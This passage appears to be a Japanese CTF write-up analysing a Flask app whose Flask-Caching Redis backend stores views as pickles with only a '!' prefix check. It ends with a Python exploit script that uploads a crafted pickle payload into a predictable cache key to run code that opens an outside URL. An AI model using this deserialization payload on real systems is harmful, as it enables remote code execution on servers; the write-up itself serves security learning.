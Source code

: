 文字数制限はあるものの、好きなキーと値で Redis に書き込むことができるようです。また、[Flask-Caching](https://flask-caching.readthedocs.io/en/latest/) というものを使って `_test0` から `_test30` までの 31 個の関数を Redis にキャッシュしていることがわかります。実際にどのようにして Redis にキャッシュされているか確認しましょう。

まずキャッシュ用の Redis サーバを立ち上げておきます。

```
$ docker run --rm -d -p 6379:6379 redis:5
a24447710d839071a1a6be23a0634af434d670a12c4672261dd9a836ba870c0f
$ docker exec -it a2 redis-cli
127.0.0.1:6379> 
```

`pip install redis flask Flask-Caching` でライブラリをインストールしておき、`app.py` 中の `CACHE_REDIS_HOST` を修正し、ついでに `cache.cached` のタイムアウトを長めにしておきます。

`app.py` を立ち上げて、`/test0` にアクセスして `_test0` をキャッシュさせましょう。Redis 側でどうなっているか確認します。

```
127.0.0.1:6379> keys *
1) "flask_cache_view//test0"
127.0.0.1:6379> get "flask_cache_view//test0"
"!\x80\x03X\x04\x00\x00\x00testq\x00."
```

`flask_cache_view//test0` というキーに `!\x80\x03X\x04\x00\x00\x00testq\x00.` というバイト列が格納されています。`80` から始まるバイト列といえば Python の Pickle です。

[ソースコード](https://github.com/sh4nks/flask-caching/blob/3946c7288105b65c9c4a5ee62a8effbb284f24f8/flask_caching/backends/rediscache.py#L86-L93)を確認すると `b"!" + pickle.dumps(value)` と確かに Pickle が使われていることがわかりました。

[ロード時のチェック](https://github.com/sh4nks/flask-caching/blob/3946c7288105b65c9c4a5ee62a8effbb284f24f8/flask_caching/backends/rediscache.py#L95-L110)もバイト列が `!` から始まっているか見ているだけです。

Redis に書き込まれるキャッシュのキーは予測可能なもので、その値は Pickle でシリアライズされたオブジェクトであることがわかりました。ファイルのアップロード機能を使えば RCE できそうな雰囲気があります。

うまくデシリアライズされれば適当な URL を開くコードが実行されるような文字列を `flask_cache_view//test1` に書き込み、`/test1` にアクセスすることで Redis からその文字列を読み出させてデシリアライズさせるようなスクリプトを書きましょう。

```python
import requests
import pickle

HOST = 'http://(省略)/'

payload = b"""c__builtin__\nexec\n(S'req = __import__("urllib.request").request; r = req.Request("https://(省略)"); req.urlopen(r)'\ntR."""

requests.post(HOST, data={
  'title': 'flask_cache_view//test1'
}, files={
  'content': ('payload', b'!' + payload, 'application/octet-stream')
})
req = requests.get(HOST + 'test1')
print(req.text)
```
